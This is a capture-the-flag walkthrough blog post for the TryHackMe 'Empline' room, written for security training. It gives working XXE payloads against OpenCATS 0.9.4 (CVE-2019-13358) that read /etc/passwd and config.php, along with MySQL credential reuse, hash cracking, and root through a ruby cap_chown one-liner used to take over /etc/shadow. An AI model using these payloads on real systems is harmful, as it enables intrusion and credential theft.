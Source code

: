 ```yaml
---
title: Try Hack Me Empline
date: 2021-09-19T13:14:49+05:30
lastmod: 2021-09-19T13:14:49+05:30
author: Animesh Roy
avatar: /img/avatar.jpeg
authorlink: https://bit.ly/34sGFiK
cover: /img/thm.gif # for tryhackMe
simg: /img/thm.gif

categories:
  - TryHackMe
tags:
  - tryhackme
  - rooms
  - thm

draft: false
description: TryHackMe Room {Empline} solved by Animesh Roy. this is a walkthough. read more...

---
```


## OverView

|||
|---|---|
| <script src="https://tryhackme.com/badge/434937"></script>| <a class="twitter-follow-button" href="https://twitter.com/anir0y" data-size="large"> Follow @anir0y<a>|
|Empline|![logo](https://tryhackme-images.s3.amazonaws.com/room-icons/189112ffef41c0fa813d7d5b394a58b5.png)|
| <b> Empline [Subscription Required] </b>| [Empline](https://tryhackme.com/room/empline)|

Are you good enough to apply for this job?

## Enumeration

### Nmap

```bash
sudo nmap -sC -sV -oN nmap/init 10.10.127.35
[sudo] password for anir0y: 
Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-19 13:18 IST
Nmap scan report for 10.10.127.35
Host is up (0.21s latency).
Not shown: 997 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c0:d5:41:ee:a4:d0:83:0c:97:0d:75:cc:7b:10:7f:76 (RSA)
|   256 83:82:f9:69:19:7d:0d:5c:53:65:d5:54:f6:45:db:74 (ECDSA)
|_  256 4f:91:3e:8b:69:69:09:70:0e:82:26:28:5c:84:71:c9 (ED25519)
80/tcp   open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Empline
3306/tcp open  mysql   MySQL 5.5.5-10.1.48-MariaDB-0ubuntu0.18.04.1
| mysql-info: 
|   Protocol: 10
|   Version: 5.5.5-10.1.48-MariaDB-0ubuntu0.18.04.1
|   Thread ID: 86
|   Capabilities flags: 63487
|   Some Capabilities: Support41Auth, IgnoreSigpipes, Speaks41ProtocolOld, SupportsTransactions, SupportsCompression, FoundRows, InteractiveClient, Speaks41ProtocolNew, DontAllowDatabaseTableColumn, IgnoreSpaceBeforeParenthesis, ODBCClient, LongPassword, ConnectWithDatabase, SupportsLoadDataLocal, LongColumnFlag, SupportsAuthPlugins, SupportsMultipleResults, SupportsMultipleStatments
|   Status: Autocommi
|   Salt: N|F*;+c3re'0ZUy#?Sd'|
|_  Auth Plugin Name: mysql_native_password
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.67 seconds
```

|Port|service|remarks
|---|---|---|
|22|SSH|will check this one later|
|80|HTTP| web-service|
|3306|MySQL| kinda odd, usually MySQL port/services aren't exposed on external IP|

### HTTP Enumeration

#### port:80

![img](https://i.imgur.com/5JIXGQa.png)

nothing important. gobuster returns no `intresting` results.

![img](https://i.imgur.com/5M4xfrp.png)

one new `sub-domain` linked with `Employment` menu. let's add that to our local `/etc/hosts` file.

#### job.empline.thm

![img](https://i.imgur.com/GHRimOl.png)

* CMS is `opencats`
* Version 0.9.4 Countach
* A vulnerabilty `CVE-2019-13358` can be exploited.
* ref to original [blog post](https://doddsecurity.com/312/xml-external-entity-injection-xxe-in-opencats-applicant-tracking-system/)

## Payload

### XXE on job.empline.thm

* generate the document file:

     ```python
     #!/usr/bin/env python3
     from docx import Document
     document = Document()
     paragraph = document.add_paragraph('anir0y')
     document.save('payload.docx')
     ```

* unzip the document file and add the payload to read `/etc/passwd` file.

     ```xml
     <!DOCTYPE test [<!ENTITY test SYSTEM 'file:///etc/passwd'>]>
     ```

* For the second modification, we need to find and change my name(`anir0y`) which was the only content that was in the resume. We will swap out my name with this:

     `&test;`

* goto the URL: `job.empline.thm/careers/` and apply for the job with our `payload.docx` as resume.
* it worked!!!
  
     ![img](https://i.imgur.com/w4mSOfH.png)

* now let's try reading the `config.php` on root dir.

     ```xml
     <?xml version='1.0' encoding='UTF-8' standalone='yes'?>
     <!DOCTYPE test [<!ENTITY test SYSTEM 'php://filter/convert.base64-encode/resource=config.php'>]>
     <w:document xmlns:wpc="http://schemas.microsoft.com/office/word/2010/wordprocessingCanvas" xmlns:mo="http://schemas.microsoft.com/office/mac/office/2008/main" xmlns:mc="http://schemas.openxmlformats.org/markup-compatibility/2006" xmlns:mv="urn:schemas-microsoft-com:mac:vml" xmlns:o="urn:schemas-microsoft-com:office:office" xmlns:r="http://schemas.openxmlformats.org/officeDocument/2006/relationships" xmlns:m="http://schemas.openxmlformats.org/officeDocument/2006/math" xmlns:v="urn:schemas-microsoft-com:vml" xmlns:wp14="http://schemas.microsoft.com/office/word/2010/wordprocessingDrawing" xmlns:wp="http://schemas.openxmlformats.org/drawingml/2006/wordprocessingDrawing" xmlns:w10="urn:schemas-microsoft-com:office:word" xmlns:w="http://schemas.openxmlformats.org/wordprocessingml/2006/main" xmlns:w14="http://schemas.microsoft.com/office/word/2010/wordml" xmlns:wpg="http://schemas.microsoft.com/office/word/2010/wordprocessingGroup" xmlns:wpi="http://schemas.microsoft.com/office/word/2010/wordprocessingInk" xmlns:wne="http://schemas.microsoft.com/office/word/2006/wordml" xmlns:wps="http://schemas.microsoft.com/office/word/2010/wordprocessingShape" mc:Ignorable="w14 wp14"><w:body><w:p><w:r><w:t>&test;</w:t></w:r></w:p><w:sectPr w:rsidR="00FC693F" w:rsidRPr="0006063C" w:rsidSect="00034616"><w:pgSz w:w="12240" w:h="15840"/><w:pgMar w:top="1440" w:right="1800" w:bottom="1440" w:left="1800" w:header="720" w:footer="720" w:gutter="0"/><w:cols w:space="720"/><w:docGrid w:linePitch="360"/></w:sectPr></w:body></w:document>
     ```

* save it to the `payload.docx`

     ```bash
     ┌──(anir0y㉿kali)-[~/…/thm/room/empline/xxe]
     └─$ zip payload.docx word/document.xml 
     updating: word/document.xml (deflated 65%)
     ```

* reupload the file.
  
  ![img](https://i.imgur.com/D69DfgA.png)

* save the encoded output to a file and decode it with base64 decoder. you can find the  `DB creds`. as we already know `mysql` is listening on IP. let's try connecting with it.

> PS: I did try the creds for SSH; didn't worked!! :(

### MySQL

* login to remote db
  
  ![img](https://i.imgur.com/38Ccqil.png)

* found user creds:
  
  ![img](https://i.imgur.com/CePlnsF.png)

* let's crack the hash.
  
     ![img](https://i.imgur.com/kM5HkTC.png)

only password I was able to crack with `rockyou.txt` is for `george`

## User.txt

* now we have creds for `george`; SSH into the machine with his creds.
* the creds worked!!! 
* now we can read `user.txt` file.
  
  ![img](https://i.imgur.com/buJSaNJ.png)

---
<!-- Google Ads -->
<script async src="https://pagead2.googlesyndication.com/pagead/js/adsbygoogle.js"></script>
<ins class="adsbygoogle"
     style="display:block; text-align:center;"
     data-ad-layout="in-article"
     data-ad-format="fluid"
     data-ad-client="ca-pub-3526678290068011"
     data-ad-slot="7160066188"></ins>
<script>
     (adsbygoogle = window.adsbygoogle || []).push({});
</script>
<!-- END -->

---

## root.txt

* let's run `linpeas`
* intresting finding for `Capabilities`
  
  `/usr/local/bin/ruby = cap_chown+ep`

* take ownership of `/etc/shadow` file
  
  `ruby -e 'File.chown(1002,1002,"/etc/shadow")'`

* change root password

     ```python
     python -c "import crypt, getpass, pwd; \
          print crypt.crypt('password', '\$6\$SALTsalt\$')"
     ```

     ```bash
     edit /etc/shadow with new generated hash
     # before
     root:$6$1cvOcl49$/czKHKvBaz450J3YnIvkqexT.StvdgUWzPr5X1Aitt/kxgF/i78wziX3zJQ0y8Kg9y749Qjr5EFiHmTdPsIJH/:18828:0:99999:7:::
     #now
     root:$6$SALTsalt$UiZikbV3VeeBPsg8./Q5DAfq9aj7CVZMDU6ffBiBLgUEpxv7LMXKbcZ9JSZnYDrZQftdG319XkbLVMvWcF/Vr/:18828:0:99999:7:::
     ```

* finally we can read the `root.txt` flag.

     ![img](https://i.imgur.com/7uyiAp5.png)

---
<!-- Google Ads -->

<script async src="https://pagead2.googlesyndication.com/pagead/js/adsbygoogle.js"></script>
<ins class="adsbygoogle"
     style="display:block; text-align:center;"
     data-ad-layout="in-article"
     data-ad-format="fluid"
     data-ad-client="ca-pub-3526678290068011"
     data-ad-slot="7160066188"></ins>
<script>
     (adsbygoogle = window.adsbygoogle || []).push({});
</script>
<!-- END -->


<script data-name="BMC-Widget" data-cfasync="false" src="https://cdnjs.buymeacoffee.com/1.0.0/widget.prod.min.js" data-id="anir0y" data-description="Support me on Buy me a coffee!" data-message="" data-color="#5F7FFF" data-position="Right" data-x_margin="18" data-y_margin="18"></script>

<!-- EOF -->

